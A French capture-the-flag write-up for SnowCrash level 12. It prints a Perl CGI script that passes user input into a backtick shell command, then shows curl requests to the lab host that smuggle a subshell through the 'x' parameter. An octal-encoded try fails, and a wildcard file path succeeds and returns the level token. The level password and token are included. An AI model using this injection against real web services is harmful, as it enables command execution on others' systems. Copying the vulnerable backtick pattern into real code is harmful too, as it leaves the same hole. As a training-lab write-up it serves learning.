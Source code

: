 # LEVEL 12

**LOGIN: level12**

**PASSWORD: fa6v5ateaw21peobuub8ipe6s**

 ----

```
level12@SnowCrash:~$ ls
level12.pl
```

```
level12@SnowCrash:~$ cat level12.pl 
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```

Toujours un exploit subshell à cette ligne : ```@output = `egrep "^$xx" /tmp/xd 2>&1`; ```

Mais `$xx` est mis en majuscule puis tronqué au premier espace: 


Le premier essai consiste à passer une string en octal pour éviter les mofifications

`echo "getflag >/tmp/exploit" > /tmp/1`
```
`curl 192.168.0.15:4646\?x="\`\$'\057\164\155\160\057\061'\`"
```
Il ne se passe pas grand chose, on a accès aux logs
``` 
tail -f /var/log/apache2/error.log

[error] [client 192.168.0.18] sh: 1: 
[error] [client 192.168.0.18] $\\057\\164\\155\\160\\057\\061: not found
```

Arf! le subshell invoqué est `sh`et ne peut pas expand une string octale :((( solution en attente....

Deuxieme technique, on rename le fichier /tmp/1 en /tmp/1111 et on va utiliser un Wildcard pour trouver notre script sans utiliser de lettre : 

`curl 192.168.0.15:4646\?x=/*/1111`

```
cat /tmp/exploit
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

**TOKEN :g1qKMiRpXf53AWhDaU7FEkczr**
